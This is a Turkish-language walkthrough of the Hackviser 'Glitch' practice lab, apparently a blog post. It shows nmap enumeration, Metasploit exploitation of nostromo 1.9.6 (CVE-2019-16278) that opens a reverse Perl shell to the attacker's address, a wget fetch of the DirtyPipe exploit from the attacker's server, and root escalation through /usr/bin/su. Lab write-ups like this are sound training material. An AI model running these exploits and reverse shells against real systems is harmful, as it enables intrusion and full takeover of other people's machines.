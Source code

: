 ```yaml
---
title: Glitch
date: 2024-03-27 12:23:12 
categories: [Hackviser]
tags: [Warmups]  
image: /images/glitch.webp
---
```


Bu makine, yaygın olarak kullanılan nostromo web sunucusunda zafiyet araştırmacılığının nasıl yapılacağını ve linux tabanlı sistemlerde yetki yükseltme saldırılarının nasıl yapılabileceğini öğretmeye odaklanır.

Bir web uygulamasında zafiyet tespit edilmesi, zafiyetin istismar edilmesi ve linux çekirdeğinden kaynaklı yetki yükseltme saldırıları ile ilgili alıştırmalar yapmak için önerilir.

<a href="https://app.hackviser.com/warmups/glitch">Glitch</a>

---


1- Hangi portlar açık? 

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 172.20.4.10 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 12:06 EDT
Nmap scan report for 172.20.4.10 (172.20.4.10)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.06 seconds
````
- 22,80

2- Çalışan web sunucusunun adı nedir?

- nostromo

Güvenlik zafiyetinin CVE kodu nedir?

nostromo 1.9.6 ile ilgili araştırma yaptığımda CVE-2019-16278 kodlu bir zafiyet buldum.

fotoğraf

3- Linux çekirdek sürümü nedir?

Bunu öğrenmek için makineye erişim elde etmemiz gerekiyor. Bulduğumuz zafiyeti kullanalım. Bunun için metasploit kullanılıyorum.

````bash
┌──(root㉿kali)-[~/Downloads]
└─# msfconsole                                                                           
Metasploit tip: Network adapter names can be used for IP options set LHOST 
eth0
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.4.0-dev                           ]
+ -- --=[ 2404 exploits - 1239 auxiliary - 422 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search nostromo 1.9.6

Matching Modules
================

   #  Name                                     Disclosure Date  Rank  Check  Description
   -  ----                                     ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec    2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution
   1    \_ target: Automatic (Unix In-Memory)  .                .     .      .
   2    \_ target: Automatic (Linux Dropper)   .                .     .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/nostromo_code_exec
After interacting with a module you can manually set a TARGET with set TARGET 'Automatic (Linux Dropper)'

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > show options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to lis
                                       ten on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/nostromo_code_exec) > set lhost 10.8.1.33
lhost => 10.8.1.33
msf6 exploit(multi/http/nostromo_code_exec) > set rhosts 172.20.4.10
rhosts => 172.20.4.10
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.8.1.33:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.8.1.33:4444 -> 172.20.4.10:37264) at 2024-03-30 12:17:47 -0400
whoami

www-data
````

Shell almayı başardık. Linux çekirdek sürümünü öğrenmek için `uname -r` komutunu kullanabiliriz.

````
uname -r
5.11.0-051100-generic
````

4- "hackviser" kullanıcısı için /etc/shadow içindeki parola hash değeri nedir?

/etc/shadow dosyasını görüntüleyebilmemiz için yetki yükseltmemiz gerekiyor. Başlıkta linux çekirdeğinden kaynaklı bir yetki yükseltme saldırısı gerçekleştireceğimiz belirtilmiş. [DirtyPipe](https://www.exploit-db.com/exploits/50808) zafiyetini kullanarak yetkimizi yükseltebiliriz.

Dosyayı makineme indirdikten sonra python ile web sunucumu başlatıp hedef makineye gönderiyorum.

````bash
python3 -m http.server 80 - Kali
wget http://10.8.1.33:80/50808.c - Hedef
````

C dosyasını derlemek için aşağıdaki komutu kullanıyorum

````
gcc 50808.c -o exploit
````

Bu exploiti kullanabilmemiz için bizden SUID yetkisine sahip bir dosya vermemiz isteniyor.

````
www-data@debian:/tmp$ gcc 50808.c -o exploit
gcc 50808.c -o exploit
www-data@debian:/tmp$ ./exploit
./exploit
Usage: ./exploit SUID
````

`find / -perm -u=s -type f 2>/dev/null` komutuyla SUID dosyalarını bulabiliriz.


````bash
www-data@debian:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
www-data@debian:/tmp$ 
````

/usr/bin/su dosyasını kullanabiliriz.

````bash
www-data@debian:/tmp$ ./exploit /usr/bin/su
./exploit /usr/bin/su
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
whoami
root
````

![fsoc](/images/fsoc.gif)



